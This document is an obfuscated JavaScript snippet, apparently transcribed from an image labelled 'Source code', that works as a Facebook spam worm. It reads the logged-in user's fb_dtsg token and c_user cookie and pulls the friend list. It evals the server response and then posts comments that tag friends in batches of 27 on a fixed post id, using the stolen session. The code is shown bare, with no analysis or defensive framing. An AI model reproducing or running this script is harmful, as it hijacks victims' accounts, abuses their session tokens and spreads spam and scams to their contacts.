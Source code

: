 var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","343498865791220","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id={}","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
